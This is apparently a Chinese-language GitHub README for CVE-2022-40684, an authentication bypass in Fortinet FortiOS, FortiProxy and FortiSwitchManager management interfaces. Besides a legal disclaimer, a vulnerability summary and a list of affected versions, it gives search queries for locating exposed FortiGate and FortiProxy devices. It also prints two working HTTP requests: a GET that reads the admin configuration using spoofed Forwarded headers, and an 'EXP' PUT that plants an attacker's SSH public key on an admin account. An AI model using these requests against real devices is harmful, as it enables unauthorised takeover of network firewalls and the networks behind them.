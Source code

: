 ### CVE-2022-40684

### 遵纪守法：

任何个人和组织使用网络应当遵守宪法法律，遵守公共秩序，尊重社会公德，不得危害网络安全，不得利用网络从事危害国家安全、荣誉和利益 。



### 漏洞简介：

Fortinet（飞塔）是一家全球知名的网络安全产品和安全解决方案提供商，其产品包括防火墙、防病毒软件、入侵防御系统和终端安全组件等。在受影响的FortiOS、FortiProxy 和 FortiSwitchManager产品的管理界面中，可以通过使用备用路径或通道绕过身份验证，并在未经认证的情况下通过特制的HTTP或HTTPS请求对管理界面进行操作。 



###  **风险等级** ：

 高



###  影响版本：

FortiOS 版本 7.2.0 - 7.2.1

FortiOS 版本 7.0.0 - 7.0.6

FortiProxy 版本 7.2.0

FortiProxy 版本 7.0.0 - 7.0.6

FortiSwitchManager 版本 7.2.0

FortiSwitchManager 版本 7.0.0



### 资产确定：

 title="FortiProxy“ 

title="FortiGate" 



### 漏洞复现：

#### poc

![image](https://user-images.githubusercontent.com/105833193/198500176-e3bff214-6c7f-49ff-8dfc-e7e7fb92ede8.png)


```http
GET /api/v2/cmdb/system/admin HTTP/1.1
Host: 目标
User-Agent: Node.js
Accept-Encoding: gzip, deflate
Accept: */*
Hosts: 127.0.0.1:9980
Forwarded: by="[127.0.0.1]:80";for="[127.0.0.1]:49490";proto=http;host=
X-Forwarded-Vdom: root
```



#### EXP


![image](https://user-images.githubusercontent.com/105833193/198500212-b6e24e77-ccd9-4f3f-ab2d-8a055e55fbf9.png)



```http
PUT /api/v2/cmdb/system/admin/用户名 HTTP/2
Host: 目标
User-Agent: Report Runner
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Forwarded: for="[127.0.0.1]:8888";by="[127.0.0.1]:8888"
Content-Length: 589
Content-Type: application/json

{"ssh-public-key1": "\"公钥内容\""}
```

![image](https://user-images.githubusercontent.com/105833193/198500226-07402a5b-6806-402e-b511-ce6e06dddeab.png)

![image](https://user-images.githubusercontent.com/105833193/198500235-7a932148-7fb9-46b9-8a40-58cd44b8f50c.png)



